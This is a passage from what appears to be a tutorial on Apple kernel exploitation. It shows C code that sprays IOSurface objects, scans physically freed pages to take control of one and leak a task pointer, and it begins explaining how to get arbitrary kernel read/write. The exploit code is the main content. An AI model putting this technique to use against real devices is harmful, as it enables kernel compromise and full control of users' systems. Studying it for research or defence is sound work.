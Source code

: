 ```c
        
        (*clients)[*nClients] = id;
        *nClients = (*nClients) += 1;
    }
}
```

Search for **`IOSurface`** objects in one freed physical page:

```c
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
    io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
    int nSurfaceIDs = 0;
    
    for (int i = 0; i < 0x400; i++) {
        spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);
        
        for (int j = 0; j < nPages; j++) {
            uint64_t start = puafPages[j];
            uint64_t stop = start + (pages(1) / 16);
            
            for (uint64_t k = start; k < stop; k += 8) {
                if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
                    info.object = k;
                    info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
                    if (self_task) *self_task = iosurface_get_receiver(k);
                    goto sprayDone;
                }
            }
        }
    }
    
sprayDone:
    for (int i = 0; i < nSurfaceIDs; i++) {
        if (surfaceIDs[i] == info.surface) continue;
        iosurface_release(client, surfaceIDs[i]);
    }
    free(surfaceIDs);
    
    return 0;
}
```

### Achieving Kernel Read/Write with IOSurface

After achieving control over an IOSurface object in kernel memory (mapped to a freed physical page accessible from userspace), we can use it for **arbitrary kernel read and write operations**.

**Key Fields in IOSurface**

The IOSurface object has two crucial fields:
